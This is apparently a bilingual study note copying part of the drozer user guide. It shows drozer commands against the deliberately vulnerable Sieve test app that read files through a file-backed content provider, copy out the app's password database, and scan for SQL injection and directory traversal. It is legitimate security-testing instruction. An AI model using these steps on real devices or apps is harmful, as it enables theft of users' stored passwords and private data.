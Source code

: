 # 下载位置
1. [软件下载 & 用户指南](https://labs.mwrinfosecurity.com/tools/drozer/)
2. [drozer-GitHub](https://github.com/mwrlabs/drozer)
    - [apk 下载 -> 点击 here](https://github.com/mwrlabs/drozer#usage)

# 用户指南

### 3.5.3 File System-backed Content Providers [Content Provider 文件系统：通过 ContentProvider 访问文件]
A content provider can provide access to the underlying file system. This allows apps to share files, where the
Android sandbox would otherwise prevent it.
Since we can reasonably assume that FileBackupProvider is a file system-backed content provider and that the
path component represents the location of the file we want to open, we can easily guess the content URIs for
this and use a drozer module to read the files:
```terminal
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1 localhost
```
Reading the /etc/hosts file is not a big problem (it is world readable anyway) but having discovered the path to
the application’s data directory in Section 3.2 we can go after more sensitive information:
```terminal
dz> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data
/data/com.mwr.example.sieve/databases/database.db /home/user/database.db
UNRESTRICTED EXTERNAL
mwrinfosecurity.com | © MWR InfoSecurity
UNRESTRICTED EXTERNAL
16
Written 24576 bytes
```
This has copied the application’s database from the device to the local machine, where it can be browsed with
sqlite to extract not only the user’s encrypted passwords, but also their master password.

### 3.5.4 Content Provider Vulnerabilities  [Content provider 脆弱性]
We have seen that content providers can be vulnerable to both SQL injection and directory traversal. drozer
offers modules to automatically test for simple cases of these vulnerabilities:

我们已经看到 content provider 可以被 SQL 注入和目录遍历。drozer 提供了一个简单的自动测试这些脆弱性的模块，使用方式如下：
```terminal
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.FileBackupProvider
```